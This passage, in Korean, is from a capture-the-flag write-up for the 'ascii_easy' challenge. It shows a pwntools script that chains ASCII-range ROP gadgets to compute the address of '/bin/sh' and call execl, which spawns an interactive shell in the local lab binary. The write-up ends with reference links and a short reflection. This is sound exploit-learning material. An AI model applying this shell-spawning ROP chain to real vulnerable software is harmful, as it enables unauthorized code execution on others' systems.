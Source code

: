 ```python

##### "/bin/sh" 문자열 주소 구하기 및 shell 루틴 호출
payload += p32(0x30305031)
# eax = 0, edi = 0x30305031
payload += p32(0x555f3276) # add eax, edi ; sub eax, 0x10 ; pop edi ; ret
payload += p32(0x30305031)
# eax = 0x30305021, edi = 0x30305031
payload += p32(0x555f3276) # add eax, edi ; sub eax, 0x10 ; pop edi ; ret
payload += p32(0x30305031)
# eax = 0x6060a042, edi = 0x30305031
payload += p32(0x555f3276) # add eax, edi ; sub eax, 0x10 ; pop edi ; ret
payload += p32(0x3b253877)
# eax = 0x9090f063, edi = 0x3b253877
payload += p32(0x555f3d4d) # sub eax, edi ; pop esi ; pop edi ; ret
payload += b'AAAA'
payload += b'AAAA'
# eax = 0x556bb7ec ("/bin/sh")
payload += p32(0x555c4669) # execl("/bin/sh", "sh", "-c", "/bin/sh", NULL)

ARGV = [b'/home/ascii_easy/ascii_easy', payload]

p = process(executable='/home/ascii_easy/ascii_easy', argv=ARGV)

p.interactive()
```

## 참고

[syscall table](https://chromium.googlesource.com/chromiumos/docs/+/master/constants/syscalls.md#x86-32_bit)<br>
[execve](https://man7.org/linux/man-pages/man2/execve.2.html)

```tip
## 알게 된 점

ROP는 가젯찾기 안그래도 빡치는데 되는 주소인지 확인하느라 더 빡쳤다.

execl, execve 구조(?)
```